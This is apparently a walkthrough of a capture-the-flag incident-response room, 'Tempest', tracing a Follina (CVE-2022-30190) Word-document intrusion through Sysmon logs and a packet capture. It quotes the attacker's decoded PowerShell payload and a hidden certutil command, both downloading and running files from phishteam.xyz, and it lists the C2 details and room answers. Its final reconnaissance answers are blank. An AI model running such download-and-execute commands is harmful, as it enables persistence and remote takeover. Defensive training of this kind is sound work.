# Tempest (Medium)

## Preparation - Tools and Artifacts



### What is the SHA256 hash of the capture.pcapng file?

`CB3A1E6ACFB246F256FBFEFDB6F494941AA30A5A7C3F5258C3E63CFA27A23DC6`

### What is the SHA256 hash of the sysmon.evtx file?

`665DC3519C2C235188201B5A8594FEA205C3BCBC75193363B87D2837ACA3C91F`

### What is the SHA256 hash of the windows.evtx file?

`D0279D5292BC5B25595115032820C978838678F4333B725998CFE9253E186D60`

## Initial Access - Malicious Document
 
### The user of this machine was compromised by a malicious document. What is the file name of the document?

Search for Sysmon ID 15 for 'FileCreateStreamHash' events.



`free_magicules.doc`

### What is the name of the compromised user and machine?

`benimaru-TEMPEST`

### What is the PID of the Microsoft Word process that opened the malicious document?

Note the timestamp of the event (2022-06-20 17:12:58.702)

Search for Sysmon event ID 1 (process creation) and restrict to the TEMPEST host.

We can see at  2022-06-20 17:13:12.410 process ID 496 is spawned from our malicious file as noted in the commandLine field



`496`

### Based on Sysmon logs, what is the IPv4 address resolved by the malicious domain used in the previous question?



We can see this as we follow the process creation events.

`167.71.199.191`

### What is the base64 encoded string in the malicious payload executed by the document?

Follow the Sysmon events to find this in a lengthy command line.



`JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg==`

Which decodes to 

```
$app=[Environment]::GetFolderPath('ApplicationData');cd "$app\Microsoft\Windows\Start Menu\Programs\Startup"; iwr http://phishteam.xyz/02dcf07/update.zip -outfile update.zip; Expand-Archive .\update.zip -DestinationPath .; rm update.zip;
```

### What is the CVE number of the exploit used by the attacker to achieve a remote code execution? 

If we examine the previous command line where we see the Base64 encoded string we can see that msdt.exe is what is being executed and this all occurred through a malicious Word doc. Googling for the combination of "CVE" "MSDT" "Word doc" leads us to CVE-2022-30190 AKA Follina, an RCE vulnerability vulnerability in the Microsoft Support Diagnostic Tool (MSDT) that allows attackers to execute arbitrary code via malicious Microsoft Word documents. Bingo!

`2022–30190`
 
 ## Initial Access - Stage 2 execution

 ### The malicious execution of the payload wrote a file on the system. What is the full target path of the payload?

 As suggested in the intro we should filter our Sysmon logs to Event IDs 1 and 11 and look for a series of processes started by explorer.exe and subsequent file creation. Once again, scope this to the TEMPEST machine.

 The timestamp of our last event occurred at 17:13:35 so this is a good place to begin our search

 The msdt.exe command execution is process ID 2628, following the chain of events the first file creation we see from process ID 2628 provides our answer as an update.zip file is created in the Startup directory

 


 `C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

 ### The implanted payload executes once the user logs into the machine. What is the executed command upon a successful login of the compromised user?

We can continue using Sysmon event ID 1 to search for our logon event and then processes that get launched afterwards



`"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -w hidden -noni certutil -urlcache -split -f 'http://phishteam.xyz/02dcf07/first.exe' C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe`

### Based on Sysmon logs, what is the SHA256 hash of the malicious binary downloaded for stage 2 execution?

For this one we have to look for the Sysmon entry where first.exe is written which will be a child process of our previous command.



`CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8`

### The stage 2 payload downloaded establishes a connection to a c2 server. What is the domain and port used by the attacker?

Let's start by looking for DNS queries using Sysmon event ID 22 and indicators that first.exe (our Stage 2 payload) is behind the lookup and again keeping the appropriate timeframe in mind.



In order to see the port number we need to find the subsequent network connection event



`resolvecyber.xyz:80`

Annoyingly, first.exe also hits the same domain multiple times on port 8080 later in the logs. We know that can't be the answer simply due to format but it means you have to make sure you look at the initial lookups and connections to find the correct answer without guessing.

## Initial Access - Malicious Document Traffic

### What is the URL of the malicious payload embedded in the document?

Now we turn our attention to the packet capture. We'll use Wireshark to analyze it. The questions in this section could stand to be a bit less vague because this is now going back and referencing the original "free_magicules.doc" document and the request it made upon execution.

You probably even noticed this URL when investigating the logs in that section. Recall that the malicious IP was `167.71.199.191` so we can quickly find this in Wireshark with the following filter




```
ip.dst==167.71.199.191 && http
```

`http://phishteam.xyz/02dcf07/index.html`

### What is the encoding used by the attacker on the c2 connection?

We need to switch our filter from the domain/IP that the payloads are being fetched from to the C2 server connection (`http://resolvecyber.xyz:80`).

```
ip.dst==167.71.222.162 && http
```




The encoding we see probably shouldn't come as a surprise but we can clearly see a number of base64 encoded endpoints.

`base64`

### The malicious c2 binary sends a payload using a parameter that contains the executed command results. What is the parameter used by the binary?

Here in the URL of the request we can see that the base64 encoded portion is being passed to the "q" parameter

`q`

### The malicious c2 binary connects to a specific URL to get the command to be executed. What is the URL used by the binary?

The aforementioned parameter and encoded string is passed specifically to the "/9ab62b5" URL

`/9ab62b5`

### What is the HTTP method used by the binary?

All of the requests are using the GET method.

`GET`

### Based on the user agent, what programming language was used by the attacker to compile the binary? 

The user-agent field suggests the use of Nim

`nim`

## Discovery - Internal Reconnaissance

### The attacker was able to discover a sensitive file inside the machine of the user. What is the password discovered on the aforementioned file?

``

### The attacker then enumerated the list of listening ports inside the machine. What is the listening port that could provide a remote shell inside the machine?

``

### The attacker then established a reverse socks proxy to access the internal services hosted inside the machine. What is the command executed by the attacker to establish the connection?

``

### What is the SHA256 hash of the binary used by the attacker to establish the reverse socks proxy connection?

``

### What is the name of the tool used by the attacker based on the SHA256 hash? Provide the answer in lowercase.

``

### The attacker then used the harvested credentials from the machine. Based on the succeeding process after the execution of the socks proxy, what service did the attacker use to authenticate?

``